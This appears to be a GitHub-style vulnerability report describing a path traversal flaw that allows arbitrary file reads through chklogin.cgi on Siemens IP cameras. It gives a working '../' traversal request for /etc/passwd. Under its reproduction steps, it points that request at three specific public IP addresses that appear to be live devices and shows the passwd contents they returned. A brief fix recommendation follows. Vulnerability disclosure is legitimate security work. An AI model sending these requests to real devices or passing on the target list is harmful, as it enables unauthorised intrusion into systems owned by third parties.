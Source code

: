 # SIEMENS-IP-Camera
## Vulnerability Report
### Vulnerability Description
Summary: Siemens monitoring has an arbitrary file read vulnerability. Attackers can read files arbitrarily through commands, affecting more than 150 devices on the Internet.
![image](https://github.com/user-attachments/assets/730b3450-15c1-4ebf-9169-24cf984c9e59)

### Affected Versions
var version="x.2.2.2458_SP1";var customer="2";var Cab_Name="SMCam3Codec.CAB";var Cab_Ver="1,19,0,0";var Applet_Ver="1.0.2.18";var Mcu_Ver="0"

### Vulnerability Details
Detailed information: 127.0.0.1/cgi-bin/chklogin.cgi?file=../../../../../../../../etc/passwd

### Reproduction Steps
Reproduction steps: 
http://176.189.154.58:8000/cgi-bin/chklogin.cgi?file=../../../../../../../../etc/passwd
![image](https://github.com/user-attachments/assets/88736cf1-e5ce-48a9-91ce-0b4c65e3b95b)

http://217.228.148.84:8082/cgi-bin/chklogin.cgi?file=../../../../../../../../etc/passwd
![image](https://github.com/user-attachments/assets/64514a3a-4b45-431c-818f-4893c11bade0)

http://95.209.158.150:8001/cgi-bin/chklogin.cgi?file=../../../../../../../../etc/passwd
![image](https://github.com/user-attachments/assets/13f6b445-aaee-47f2-9d0e-d934c9c0983a)



### Expected Result
Expected result: 
root::0:0:root:/root:/bin/sh bin:*:1:1:bin:/bin: daemon:*:2:2:daemon:/usr/sbin: sys:*:3:3:sys:/dev: adm:*:4:4:adm:/var/adm: lp:*:5:7:lp:/var/spool/lpd: sync:*:6:8:sync:/bin:/bin/sync shutdown:*:7:9:shutdown:/sbin:/sbin/shutdown halt:*:8:10:halt:/sbin:/sbin/halt mail:*:9:11:mail:/var/spool/mail: news:*:10:12:news:/var/spool/news: uucp:*:11:13:uucp:/var/spool/uucp: operator:*:12:0:operator:/root: games:*:13:100:games:/usr/games: ftp:*:15:14:ftp:/var/ftp: man:*:16:100:man:/var/cache/man: telnetd:*:17:100:telnetd:/var/tmp: nobody:*:65534:65534:nobody:/home:/bin/sh avahi:x:500:103:Linux User,,,:/home/avahi:/bin/sh avahi-autoipd:x:501:104:Linux User,,,:/home/avahi-autoipd:/bin/sh 

### Actual Result
Actual result: 
root::0:0:root:/root:/bin/sh bin:*:1:1:bin:/bin: daemon:*:2:2:daemon:/usr/sbin: sys:*:3:3:sys:/dev: adm:*:4:4:adm:/var/adm: lp:*:5:7:lp:/var/spool/lpd: sync:*:6:8:sync:/bin:/bin/sync shutdown:*:7:9:shutdown:/sbin:/sbin/shutdown halt:*:8:10:halt:/sbin:/sbin/halt mail:*:9:11:mail:/var/spool/mail: news:*:10:12:news:/var/spool/news: uucp:*:11:13:uucp:/var/spool/uucp: operator:*:12:0:operator:/root: games:*:13:100:games:/usr/games: ftp:*:15:14:ftp:/var/ftp: man:*:16:100:man:/var/cache/man: telnetd:*:17:100:telnetd:/var/tmp: nobody:*:65534:65534:nobody:/home:/bin/sh avahi:x:500:103:Linux User,,,:/home/avahi:/bin/sh avahi-autoipd:x:501:104:Linux User,,,:/home/avahi-autoipd:/bin/sh 

### Fix Recommendation
Fix recommendation: Strictly validate user input, normalize paths, restrict access to directories and file types, set appropriate permissions, and ensure directory containment policies.
